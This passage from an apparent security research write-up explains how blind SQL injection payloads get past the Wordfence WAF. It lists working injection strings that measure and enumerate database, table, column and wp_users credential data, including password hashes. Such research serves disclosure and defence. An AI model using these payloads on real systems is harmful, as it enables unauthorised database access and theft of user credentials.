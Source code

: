 ```PHP

if ($result) {
    while ($row = $result->fetch_assoc()) {
        echo "ID: {$row['id']} | User: {$row['username']} | Email: {$row['email']}<br>";
    }
} else {
    echo "Query failed: " . $mysqli->error;
}                                                      
```
---

I tried `SQLMap` with different tampers and `Ghauri` to see how good Wordfence was doing with these complex payloads, and all were being blocked.

I then moved to manual testing, seeing which kind of rules it was using. I tried obfuscation, strange functions, [JSON encoding](https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf), but nothing worked.

I started testing MariaDB functions to see if there were any blacklisted words or characters and, to my surprise, there weren’t. In fact, I discovered that Wordfence only blocks payloads that have a high heuristic probability of being a SQL statement. What I mean is that a complex SQL query like the ones `SQLMap` or `Ghauri` were sending were being blocked, but a simple `?id=3 AND ASCII(SUBSTRING(database(),1,1)) > 114` worked.

Knowing this I could start enumerating the database using the `SUBSTRING` function and improving efficiency by using the `ASCII` function, which transforms a single character into its ASCII number representation.
{{< figure src="/images/waf_bypass_wordfence/ascii.png" >}}

As I now found a viable way to enumerate the database, I started testing for working payloads to:
1. Get the length of the string I was going to dump
2. Get current database name
3. Get table names
4. Get column names
5. Dump rows

All of this was done using binary search to be as efficient as possible, as SQL allows you to compare if a value is lower or greater than another.


## Working Payloads
To dump table names, column names, and row data I used the function `GROUP_CONCAT`, which allows doing an inferred `SELECT` of the fields it will retrieve, concatenating all in a large string separated by `,`. I could only do it this way because all other payloads containing more than 1 `FROM` were being blocked.

I needed to know which values were which (as all the retrieved fields are concatenated together without any separation), so I simply added a `|` in the `GROUP_CONCAT` function: `SELECT GROUP_CONCAT(column_name,'|',table_name) FROM information_schema.columns`.


### 1. String Length
#### Database
`3 AND LENGTH(database()) > 50000`
#### Tables
`3 AND LENGTH((SELECT GROUP_CONCAT(table_name,'|',table_schema) FROM information_schema.tables)) > 3850`
#### Columns
`3 AND LENGTH((SELECT GROUP_CONCAT(column_name,'|',table_name) FROM information_schema.columns)) > 50000`
#### Data
`3 AND LENGTH((SELECT GROUP_CONCAT(id,'|',user_login,'|',user_pass) from wordpress.wp_users)) > 142`
